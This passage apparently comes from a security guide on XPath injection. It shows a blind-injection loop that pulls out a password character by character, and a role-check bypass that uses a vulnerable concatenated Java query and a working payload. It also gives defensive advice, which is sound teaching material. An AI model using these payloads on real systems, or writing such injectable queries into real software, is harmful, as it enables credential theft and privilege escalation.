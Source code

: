 3. **Automate Extraction**:
   ```python
   # Pseudo-code for automated extraction
   password = ""
   for position in range(1, 50):
       for char in 'abcdefghijklmnopqrstuvwxyz0123456789!@#$%':
           payload = f"admin' and substring(password,{position},1)='{char}"
           response = test_login(payload)
           if "User found" in response:
               password += char
               break
   ```

**Impact**: Complete password extraction despite no direct data disclosure.

> **Assumption**: The attacker can make many requests without triggering rate limiting or account lockouts. Applications should implement request throttling and brute-force protection.

---

### Scenario 4: Privilege Escalation

**Context**: Application checks user roles via XPath.

**Vulnerable Query**:
```java
String query = "//user[username='" + username + "' and role='admin']";
boolean isAdmin = (Boolean) xpath.evaluate(query, xmlDoc, XPathConstants.BOOLEAN);
```

**Attack Steps**:

1. **Normal User Login**:
   ```
   Username: john
   Role Check Result: false (john is regular user)
   ```

2. **Inject to Bypass Role Check**:
   ```
   Username: john' or '1'='1
   
   Resulting query: //user[username='john' or '1'='1' and role='admin']
   Result: true (bypassed role check)
   ```

3. **Access Admin Functions**:
   - Delete users
   - Modify configurations
   - Access sensitive data

**Impact**: Unauthorized access to administrative functions.

> **Assumption**: The application trusts the XPath result for authorization decisions. Authorization should use server-side session data, not query results that can be manipulated.

---
